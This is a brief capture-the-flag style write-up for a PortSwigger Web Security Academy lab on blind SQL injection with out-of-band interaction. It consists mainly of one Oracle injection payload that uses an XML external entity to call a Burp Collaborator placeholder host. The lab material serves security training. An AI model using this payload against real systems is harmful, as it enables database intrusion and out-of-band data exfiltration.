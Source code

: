 # Lab: Blind SQL injection with out-of-band interaction

URL: https://0ab900d40391667b804f49c700cf00d6.web-security-academy.net/

![](./Images/img1.png)

Payload:

```
EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--
```